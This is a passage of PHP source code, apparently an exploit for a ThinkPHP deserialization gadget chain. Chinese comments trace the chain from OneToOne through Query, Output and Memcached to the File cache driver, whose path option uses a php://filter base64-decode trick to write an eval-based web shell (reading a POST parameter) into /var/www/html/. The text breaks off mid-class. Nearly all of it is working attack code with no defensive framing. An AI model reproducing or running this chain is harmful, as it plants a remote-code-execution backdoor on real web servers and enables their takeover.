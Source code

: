 ```
    abstract class OneToOne
    {
        protected $selfRelation;
        protected $bindAttr = [];
        protected $query;
        function __construct($query)
        {
            $this->selfRelation = 0;
            $this->query = $query;    //$query指向Query
            $this->bindAttr = ['xxx'];// $value值，作为call函数引用的第二变量
        }
    }
}

namespace think\db {
    class Query {
        protected $model;

        function __construct($model)
        {
            $this->model = $model; //$this->model=> think\console\Output;
        }
    }
}
namespace think\console{
    class Output{
        private $handle;
        protected $styles;
        function __construct($handle)
        {
            $this->styles = ['getAttr'];
            $this->handle =$handle; //$handle->think\session\driver\Memcached
        }

    }
}
namespace think\session\driver {
    class Memcached
    {
        protected $handler;

        function __construct($handle)
        {
            $this->handler = $handle; //$handle->think\cache\driver\File
        }
    }
}

namespace think\cache\driver {
    class File
    {
        protected $options=null;
        protected $tag;

        function __construct(){
            $this->options=[
                'expire' => 3600,
                'cache_subdir' => false,
                'prefix' => '',
                'path'  => 'php://filter/convert.iconv.utf-8.utf-7|convert.base64-decode/resource=aaaPD9waHAgQGV2YWwoJF9QT1NUWydjY2MnXSk7Pz4g/../../../../../../../../../../var/www/html/',
                'data_compress' => false,
            ];
```